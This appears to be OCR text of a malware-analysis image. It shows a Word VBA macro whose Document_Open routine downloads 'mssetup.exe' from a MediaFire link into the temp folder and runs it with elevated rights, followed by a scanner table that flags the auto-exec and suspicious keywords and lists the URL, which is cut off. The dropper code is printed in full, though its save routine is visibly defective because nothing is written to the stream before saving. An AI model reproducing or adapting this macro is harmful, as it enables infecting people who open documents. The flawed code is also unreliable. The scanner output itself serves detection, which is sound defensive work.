 ```

Sub Document_Open()
    DownloadAndOpenFile
End Sub

Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    url = "https://download1076.mediafire.com/mjjs57bws5ngcVJRcUga28j9RuYxynGaiwQx3DQ0VgqblEMeVMkJeKDo7G77jmDb8YLLy_wlj8HLgv-1Nm-_dk3U4O7RSXM3DFqag4BwiI0COh6Usq5Xu8j9ImDYmDf6YnaEUPRfB5SwvO213LGTYKgRRMiZwyu2P1EA3kh6iRe4UdA/31a2ax8mintcrkp/mssetup.exe"
    destinationPath = Environ("TEMP") & "\mssetup.exe"

    ' Download the file
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            With CreateObject("ADODB.Stream")
                .Open
                .Type = 1 ' Binary
                .SaveToFile destinationPath, 2 ' Overwrite
                .Close
            End With

            ' Open the downloaded file using Shell.Application
            Set shell = CreateObject("Shell.Application")
            shell.ShellExecute destinationPath, "", "", "runas", 1
        End If
    End With
End Sub


+------------+----------------------+-----------------------------------------+
| Type       | Keyword              | Description                             |
+------------+----------------------+-----------------------------------------+
| AutoExec   | AutoOpen             | Runs when the Word document is opened   |
| AutoExec   | Document_Open        | Runs when the Word or Publisher         |
|            |                      | document is opened                      |
| Suspicious | Open                 | May open a file                         |
| Suspicious | shell                | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | ShellExecute         | May run an executable file or a system  |
|            |                      | command                                 |
| Suspicious | Shell.Application    | May run an application (if combined     |
|            |                      | with CreateObject)                      |
| Suspicious | Binary               | May read or write a binary file (if     |
|            |                      | combined with Open)                     |
| Suspicious | CreateObject         | May create an OLE object                |
| Suspicious | ADODB.Stream         | May create a text file                  |
| Suspicious | SaveToFile           | May create a text file                  |
| Suspicious | Environ              | May read system environment variables   |
| Suspicious | MSXML2.ServerXMLHTTP | May download files from the Internet    |
| IOC        | https://download1076 | URL                                     |
|            | .mediafire.com/mjjs5 |                                         |
|            | 7bws5ngcVJRcUga28j9R |                                         |
|            | uYxynGaiwQx3DQ0Vgqbl |                                         |
|            | EMeVMkJeKDo7G77jmDb8 |                                         |
|            | YLLy_wlj8HLgv-1Nm-_d |                                         |
|            | k3U4O7RSXM3DFqag4Bwi |                                         |
|            | I0COh6Usq5Xu8j9ImDYm |                                         |
|            | Df6YnaEUPRfB5SwvO213 |                                         |
```